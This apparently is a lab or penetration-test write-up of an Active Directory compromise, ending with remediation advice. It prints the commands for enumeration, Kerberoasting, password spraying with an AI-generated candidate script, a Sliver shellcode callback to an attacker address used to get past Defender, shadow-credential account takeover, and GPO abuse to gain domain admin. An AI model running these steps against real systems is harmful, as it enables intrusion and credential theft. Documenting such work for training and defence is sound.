

Testing the extracted credentials, I authenticate as `svc_web` successfully:



---
# AD Enumeration

## Domain User Enumeration

Using _impacket-lookupsid_, I can compile a list of valid domain users:

```bash
# Collecting names of domain objects - usernames, groups, etc.
impacket-lookupsid 'svc_web'@DC01 -hashes '[...]' 25000 > Lists/RIDC.txt

# Refining the list to contain valid usernames
grep "(SidTypeUser)" Lists/RIDC.txt | awk -F '\\' '{print $2}' | sed 's/ (SidTypeUser)//' > Lists/users_RIDC.txt
```



## Preliminary Vector Elimination

 Checking password policy using `--pass-pol` on _netexec_ - an account lockout threshold is not set, password minimum length is rather short (7 characters) but password complexity is applied. These characteristics will allow me to spray passwords in the following steps:



- Sprayed the known hash in conjunction with the full user list - no password re-use, it authenticates on `svc_web` to both Windows hosts.
- Tested _NO_PREAUTH_ with _impacket-GetNPUsers_ - all domain users are not susceptible to it.
- Attempted to use usernames as passwords with `--no-bruteforce` - no users used its username as password.
- Tested set SPNs with _impacket-GetUserSPNs_, two additional users (apart from `svc_web`) have set SPNs:



However, an attempt to Kerberoast these users returns `KDC_ERR_ETYPE_NOSUPP`, indicating that RC4 encryption is disabled and only AES tickets are accepted:



Changing the encryption type, I attempted to use the AES-256 hash recovered from the KeyTabExtract output:

```bash
impacket-GetUserSPNs 'CTOS.corp/svc_web':@DC01 -aes '[...]' -request
```

This did result in returned hashes for all three accounts. However, an attempt to crack the hashes with _rockyou.txt_ failed.
## Credentialed LDAP Enumeration

Having valid domain credentials allows me to enumerate the Active Directory environment using _BloodHound_ ingestor. The output from this tool can help map relationships and identify attack paths visually.
### _BloodHound_

Using `svc_web`'s valid credentials to execute _bloodhound-python_ collector:

```bash
bloodhound-python -u 'svc_web' --hashes ':...' -ns 10.1.252.198 -dc DC01.ctos.corp -d ctos.corp -c all --zip
```



Loading the newly-created _.zip_ file into the _BloodHound_ GUI, I mark `svc_web` as owned - the user itself has no interesting ACLs or group membership. I will return to the UI later, when additional users are compromised.

---
# _IT-WS01 (10.1.10.71)_

## SMB Enumeration

Authenticating to _IT-WS01_ as `svc_web` and enumerating the user's SMB share access:



As seen above, `svc_web` is able to read the contents of _IT_Onboarding_, reviewing its contents - it contains a single PDF file:



The file, _SEC-POL-2026.pdf_, contains a detailed breakdown of their temporary initial password:



> [!quote]
> Your initial credential follows this exact construction: [First3_Upper]![Year][Special][Last2_Lower]

## Foothold

Using _Claude_, I have generated a script that will use the potential usernames I have collected from the website earlier and build a password list that I could later spray, courtesy of the enabling password policy:

```python
#!/usr/bin/env python3

import sys

YEAR = "2026"
SPECIALS = "@#$%&"


def generate_candidates(firstname, lastname):
    first3 = firstname[:3].upper()
    last2 = lastname[-2:].lower()

    for special in SPECIALS:
        yield f"{first3}!{YEAR}{special}{last2}"


if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} names.txt")
    sys.exit(1)

with open(sys.argv[1], "r", encoding="utf-8") as f:
    for line in f:
        line = line.strip()

        if not line or " " not in line:
            continue

        firstname, lastname = line.split(None, 1)

        for password in generate_candidates(firstname, lastname):
            print(password)
```

Executing the script:



The output was saved to a password list, then sprayed with the collected valid user list:



Eventually, a successful authentication as `l_conrad` occurred:


`l_conrad` is a member of _IT_Operations_, a non-default group that might indicate remote access:



Indeed, `l_conrad` can authenticate over WinRM:



Starting a remote session over WinRm:


## Privilege Escalation

### Filesystem Enumeration

Reviewing _\Program Files_, I note a non-default directory named _CTOS_:


Within _\Program Files\CTOS\InventoryService_, a single binary file, checking its ACL - it allows low-privileged users to modify (_M_) the file:


To perform a deeper check, I have tried using _PowerUp_, however it was blocked. As an alternative, I will use `Get-Acl`

```Powershell
Get-Acl -Path "HKLM:\System\CurrentControlSet\Services\CTOSInventorySvc" | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\CTOSInventorySvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Users Allow  ReadKey
         BUILTIN\Users Allow  -2147483648
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -2147483648
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  -2147483648
Audit  :
Sddl   : O:BAG:SYD:AI(A;ID;KR;;;BU)(A;CIIOID;GR;;;BU)(A;ID;KA;;;BA)(A;CIIOID;GA;;;BA)(A;ID;KA;;;SY)(A;CIIOID;GA;;;SY)(A;CIIOID;GA;;;CO)(A;ID;KR;;;AC)(A;CIIOID;GR;;;AC)(A;ID;KR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-323
         2135806-4053264122-3456934681)(A;CIIOID;GR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)
```

Having this kind of ACL on a service file means that I will be able to alter `binPath` direct service launch from a binary of my choosing.

Enumerating the service - it is currently not running:

```powershell
Get-Service -Name "CTOSInventorySvc"
```


Starting and restarting the service can be simply done by using the following commands:

```
Stop-Service -Name "CTOSInventorySvc"
Start-Service -Name "CTOSInventorySvc"
```

After I have tried forging a malicious binary with _msfvenom_ - it was unsurprisingly blocked by Defender. 

### Bypassing Defender with a _Nim_ Stager & _Sliver_

To bypass defender, I will use a _Nim_ stager in conjunction with a _Sliver_. The stager itself is available [here](https://medium.com/@numencyberlabs/defeating-window-defender-using-different-programming-languages-with-sliver-c2-shellcode-d233f75a4d14). The only altered part is the `DownloadExecute` string, it will reach a _Sliver_-generated shellcode from my local host:


On a Windows host, compiling the stager to get a binary:


On my local host, within _Sliver_, I generate a shellcode file and start a listener:

```bash
# Generating shellcode
generate --mtls 10.200.87.225:443 --os windows --arch amd64 --format shellcode --save shellc.bin

# Starting a listener
mtls --lport 443
```


I upload the stager to the target host, and test whether it triggers the chain as expected not within the context of the service `binPath`. Execution leads to the download of the shellcode and a callback on _Sliver_'s listener:


Now, I can alter the `binPath` of the service so that once the service is started, it will trigger the same change of events:


Below, target host reaching for the shellcode and a callback is received on _Sliver_, I can confirm command execution as `NT AUTHORITY\SYSTEM`:


However, service binaries often terminate after a rather short while due to behavior which the OS deems as not intended - this affects the _Sliver_ session and it ends abruptly. To get the most from the short time window in which I have elevated access - I will launch the service once more, get another session and quickly dump hashes:


Having the local `administrator`'s hash, I am no longer dependent on the service for privileged access, as I can simply Pass-the-Hash:


### Post-Compromise Enumeration

Starting a session as the local `administrator`, I immediately found a _KeePass_ database file:


---
# _DC01 (10.1.252.198)_

## Compromising `svc_infra_mgr`

After downloading the file to my local host, I will be able to access the contents of the database with its master password. The password can be obtained, as presented below, by using _keepass2john_ to generate a hash file from the file's encryption data, then cracking that hash:


Since the hash cracked successfully, I now have the database password and can access it via _KeePassXC_:


Reviewing the database's contents - I can copy a cleartext password for `svc_infra_mgr`:


The recovered password authenticates `svc_infra_mgr` successfully to the DC:


## Privilege Escalation

### Chaining ACLs

Reviewing its node on _BloodHound_ UI, `svc_infra_mgr` has _GenericWrite_ ACL over `it_ops_lead`, the latter can use its _AddMember_ ACL over the _POLICY_AUTOMATION_GROUP_ to add members to it. As seen below, members of the mentioned group have _GenericWrite_ over the _Default Domain Controllers Policy_ GPO:


Chained together, exploiting these ACLs can lead to full domain compromise, as the mentioned GPO can be used to escalate privileges if controlled and abused.

#### Compromising `it_ops_lead`:

Having _GenericWrite_ over `it_ops_lead`, `svc_infra_mgr` can compromise it by performing Shadow Credentials, Kerberoasting and alternating its password. I will opt for the former, as it is not as loud as the other two alternatives:

```bash
certipy-ad shadow auto -u 'svc_infra_mgr' -p '[...]' -account 'it_ops_lead' -dc-ip '10.1.252.198'
```


As seen above, I managed to recover an NT hash for `it_ops_lead`. And below, I authenticate successfully as the user:


Next, I will use `it_ops_lead` _AddMember_ ACL on the POLICY_AUTOMATION_GROUP group to add the user to it:

```bash
bloodyad -H 10.1.252.198 -d 'CTOS.CORP' -u 'it_ops_lead' -p '[...]' add groupMember 'POLICY_AUTOMATION_GROUP' 'it_ops_lead'
```


Being a member of _POLICY_AUTOMATION_GROUP_, I can abuse its _GenericWrite_ ACL on the _Default Domain Controllers Policy_ GPO to set a scheduled task that will turn `it_ops_lead` into a local administrator. For that, I will use [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse):

```bash
python3 /opt/pyGPOAbuse/pygpoabuse.py CTOS.CORP/it_ops_lead -hashes '[...]' -gpo-id '6AC1786C-016F-11D2-945F-00C04FB984F9' -f -command 'net localgroup administrators /add it_ops_lead'
```

The `-gpo-id` can be recovered from _BloodHound_:


As seen above, the execution of _pyGPOAbuse_ did not add the user to the local administrators group right away. This will require a minute or two to perform the task. Below, I manage to authenticate as `it_ops_lead` and dump the _NTDS.dit_ file contents - successfully compromising the domain:


Below, command execution on _DC01_ as the domain administrator. 


---
# Vulnerabilities, Misconfigurations and Recommended Remediations

## _WEB-01_

- **SQL injection** in a login form allowed an authentication bypass and granted access to source code. To remediate, it is recommended to use parameterized queries (prepared statements). 
- **Insecure deserialization** present in application code - the server enables RCE by using `pickle` deserialization on user input. To remediate, `pickle` should not be used when the data input source is untrusted, _JSON_ can be used instead.
- **Cleartext credentials** are stored within readable files, although this specific vector was already exploited previously, I managed to obtain the webapp's administrator password. To remediate, remove cleartext passwords from files, databases, etc. and use a password or a secret manager. For databases, use a strong hashing algorithm rather than storing passwords in cleartext. 
- **Cronjob with a writable staging directory** enabled private key theft through a symlink and a writable configuration file. To remediate, restrict cronjob and process manipulation using writable filesystem locations (such as unprivileged users' home directory). 
- **_disk_ group membership** allowed privilege escalation by copying `root`'s private SSH key. To remediate, apply least privilege best practices, such as using `sudo` or specific capabilities within the context of necessary functionality rather than granting group membership.


## Domain Hosts

- **Account Lockout Threshold is too permissive**, in this case set to _none_, which allowed me to spray passwords quickly without considering a lockout restriction. To remediate, apply an account lockout threshold and a reasonable account lockout duration.
- **Initial password left unchanged** - although more complex than most default onboarding passwords handed to employees - it is still weak and suffers from low entropy, in this case it was also left unchanged and allowed me to compromise a user. To remediate, implement `pwdLastSet = 0` in order to force password change after the first use.
- **Hijackable service binary** allowed me to escalate privileges and dump the SAM hive. To remediate, restrict service ACLs, which in this case were excessive for all domain users, in accordance with the principle of least privilege, harden service binary permissions, monitor and audit changes over time.
- **NTLM authentication** enabled Pass-the-Hash using an NT hash of a local administrator, granting a degree of persistence on a workstation. To remediate, restrict local accounts from remote logons and ,where possible, phase out NTLM authentication in favor of Kerberos.
- **Weak password** protects a _KeePass_ database, containing a privileged user's credentials. Once the database file was exfiltrated to my local host, I was able to crack its john-generated hash quite easily and get access to its contents. To remediate, enforce the use of strong password on database files, especially password managers.
- **Potentially excessive ACLs** were chained together, resulting in complete domain compromise. To remediate, audit ACLs periodically and alter them according to actual functional requirements.
